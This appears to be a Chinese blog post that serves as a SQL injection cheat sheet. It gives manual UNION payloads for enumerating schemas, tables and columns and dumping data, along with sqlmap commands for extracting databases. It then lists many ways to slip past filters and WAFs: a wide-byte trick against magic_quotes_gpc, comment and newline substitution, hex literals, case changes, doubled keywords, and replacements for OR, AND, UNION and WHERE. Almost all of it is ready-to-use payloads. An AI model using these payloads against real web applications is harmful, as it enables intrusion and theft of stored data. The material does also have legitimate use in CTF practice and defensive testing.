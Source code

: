```yaml
---
layout: post
title: SQL注入及绕过技巧
date: 2018-6-7
categories: blog
tags: [sql注入,绕过技巧,渗透]
description: 。
---
```


# sql注入的手工流程

```
1' order by 数字-- 

1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()-- 

1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='表名'--

1' union select 1,flag,3,4 from 表名-- 
```

# sqlmap注入的使用流程

```
sqlmap -u "url" --cookie="" --current-user --current-db

sqlmap -u "url" --table -D 数据库

sqlmap -u "url" -T 表名 --column 

sqlmap -u "url" -T 表名 -C 1,2 --dump

```

# 手工获取所有数据库

```
select 1,group_concat(schema_name),3 from information_schema.schemata   

//information_schema.schemata  是information_schema数据库中schemata表，schema_name是表中存储数据库的字段
```

# 限制数据库的行显示
```
select * from 表名 limit 0,1  //从第0行开始向后显示一行
select * from 表名 limit 1,2  //从第1行开始向后显示两行
select * from 表名 limit 5    //显示前5条数据

```

# 绕过姿势
- 宽字节绕过
原理：有些php后台需要对客户端进来的数据进行防范，对特殊字符（`'`,`"`,`\`,`NULL`）数据用`\`进行转义，利用这一点，sql注入经常使用的'就可以完美绕过了（前提必须使用魔术引号开关magic_quotes_gpc或者addslashes函数）
    1. 案例
        php会针对URL编码进行decode
decode后，url参数为 ?id=10 0xDF ‘ 0×20 AND 0×20 1=2 0×23
magic_quotes_gpc处理时会自动转义,即在‘前面加一个\
处理后url参数变成: ?id=10 0xDF 0x5c ‘ 0×20 AND 0×20 1=2 0×23
可以看到，在‘前面PHP会自动加一个0x5c(注:0x5c为\),也就是会自动转义成\’
由于汉字是双字节的,所以0xDF 0x5c被转为謀这个汉字,’之前的\就这样消失了
最后的%23为#,在sql中#是注释,所以后面的’就没用了
最终sql中projectid = ’10謀’在sql执行的时候,由于projectid为int类型字段,mysql会自动intval()处理一下 详情见这里
所以等效于`SELECT downid,name FROM x_downs WHERE projectid = 10 AND 1=2`

- 大小写绕过
  原理：sql语句不分大小写，但过滤语句只过滤其中一种


- 空格、回车（%0a）、/\*!\*/(内联注释)、（）绕过
  ```
  select/**/*/**/from/**/yz;
  select%0a*%0afrom%0ayz; %0a 是回车
  /*!select*//*!**//*!from*//*!yz*/;

  select(a)from(yz);
  select(a)from(yz)where(a=1);
  
  ```
  
 - 16进制引号绕过
 ```
   select column_name  from information_schema.tables where table_name="users"
   
   select column_name  from information_schema.tables where table_name=0x7573657273
   
 ```
 
 - 编码绕过
    分为两个方面
    1. WAF层编码
        WAF可能进行URL解码，可能解一次，也可能解两次，如果两次就编码三次进行绕过
    2. 后台程序编码
        有时候后台程序用$_GET['ID']进行解码后有可能再进行一次解码，比如urldecode($_GET['ID'])
        
 - 双关键字绕过
    `?id=1+UNIunionON+SeLselectECT+1,2,3–`
    利用后台代码形如str_replace('and|union|select','',str)将关键字替换为空的形式

- 等号绕过
    将'='替换成'like',如：
    `select * from sql_test where username like 'admin'`;

- 关键字过滤绕过
    1. 当过滤sql关键字时可以尝试一下方法
    ```
    id=1+(UnIoN)+(SelECT)+
    id=1+(UnIoN+SeLeCT)+
    id=1+(UnI)(oN)+(SeL)(EcT)
    id=1+'UnI''On'+'SeL''ECT' <-MySQL only
    id=1+'UnI'||'on'+SeLeCT' <-MSSQL only
    ```
     或者UNI /\*\*/ON+SEL/\*\*/ ECT(有些mysql版本不能使用此方法)
     
     2. or/and/union/where/select关键词过滤技巧
    OR绕过  `1 or 1=1` ==>`1 || 1=1`
    AND绕过`1 and 1=1`==>`1 && 1=1`
    OR/AND/UNION绕过 `union  select  user, password  from  users`==>`1 || （select  user  from  users  where  user_id = 1）=’admin’`
    OR/AND/UNION/WHERE绕过 ` 1||（select  user  from  users  where  user_id = 1）= ‘admin’` ==>` 1||( select  user  from  users  limit  1)=’admin’`
    OR/AND/UNION/WHERE/LIMIT绕过 ` 1||（select  user  from  users  limit  1）=’admin’` ==> ` 1||（select  user  from  users  group by user_id having user_id=1 ）= ‘admin’`
    OR/AND/UNION/WHERE/LIMIT/group by绕过 `1||（select  user  from  users  group  by  user_id  having  user_id  =1）=’admin’` ==>` 1||（select  substr(group_concat(user_id),1,1) user  from  users  )=1`
    OR/AND/UNION/WHERE/LIMIT/group by/select绕过 `1||（select substr(group_concat(usr_id),1,1)user from users =1` ==>
    `1|| user_id is not null`
    `1||substr(user,1,1)=0×61`
    `1||substr(user,1,1)=unhex(61)`
    
    
    
     
    

   




